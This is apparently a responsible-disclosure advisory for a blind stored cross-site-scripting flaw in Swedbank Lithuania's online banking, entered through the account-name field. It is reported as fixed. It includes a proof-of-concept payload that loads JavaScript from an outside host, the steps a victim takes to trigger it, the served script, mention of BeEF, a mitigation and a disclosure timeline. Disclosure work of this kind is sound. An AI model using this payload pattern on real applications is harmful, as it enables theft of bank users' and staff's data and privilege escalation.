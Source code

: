 Blind Stored Cross-Site-Scripting (XSS) in Swedbank Retail Banking
==================================================================

Description
-----------
Regular authenticated internet banking users can include arbitrary input within bank’s account name. 
This makes internet banking application hosted at https://www.swedbank.lt/private vulnerable to a blind Stored Cross-Site-Scripting attack (XSS). 

A malicious actor would first place arbitrary javascript payload within their bank account name. 
Once it is accessed by another party - for example banking personnel, call centre staff etc. attacker-controlled javascript code would be executed within the context of the victim browser.
This could then be used to both leak confidential information and perform escalation of privillege attacks.

Proof-of-Concept
----------------

Authenticate to the web application and open the bank’s account setting page at:
https://www.swedbank.lt/private/home/important/aliases

Include following javascript code within your bank account name and save changes:
```
T<script src=“//p0wn.eu”></script>
```
![Setting XSS payload](https://i.imgur.com/ITOX13M.png)


*Note* To make an isolated check from external network a simple trick can be used:
Point domain used within payload to the IP address you control and save the entry within system’s `hosts` file. Then host any JS payload on the HTTPS web server.

Next a user (a victim) must visit the following page from the main menu:
```
1. Privatiems ▸
2. Kasdienės paslaugos ▸
3. Apžvalga
```

(English)
```
1. Private ▸
2. Everyday banking ▸
3. My finances
```
Reference url: 
https://www.swedbank.lt/private/d2d/accounts/overview

Or in mobile application goto
```
1. Paslaugos ▸
2. Kitos paslaugos ▸
3. Mano finansų apžvalga
```

(English)
```
1. Services ▸
2. Other services ▸ 
3. Summary of my finances
```

Then the payload is executed (pictures included).
Desktop:
![Stored XSS attack](https://i.imgur.com/QRLirjN.png)

Mobile:
![Stored XSS attack on mobile app](https://i.imgur.com/4bezvvo.jpeg)

Unfiltered user input and failure to sanitize output in the web content leads to high security incidents since an attacker can invoke and launch various JS scripts or JS frameworks like BeEF (The Browser Exploitation Framework https://beefproject.com/) in the context of a user or other system’s users (banking personnel, call center staff etc.) browser.

Payload of the server's `p0wn.eu` content:
```
HTTP/1.1 200 OK
Server: Apache
Accept-Ranges: bytes
Content-Length: 23
Connection: close
Content-Type: application/javascript

alert(document.domain);
```
Mitigation
----------
Do a proper HTML Sanitisation for user input and page rendering afterwards.

Reference
---------
https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html


TIMELINE
--------
```
2023-10-15 DISCOVERED VULNERABILITY
2023-10-16 A REPORT CREATED AND SENT TO responsible-disclosure@swedbank.com
2023-10-16 AUTOREPLY RECIEVED
2023-12-14 CONTACTED OVER LinkedIn (Head of Offensive Cyber Security at Swedbank)
2023-12-14 REPLY RECEIVED
2023-12-14 RECEIVED CONFIRMATION THAT ISSUE WAS RESOLVED
2024-01-01 PUBLIC RELEASE
```
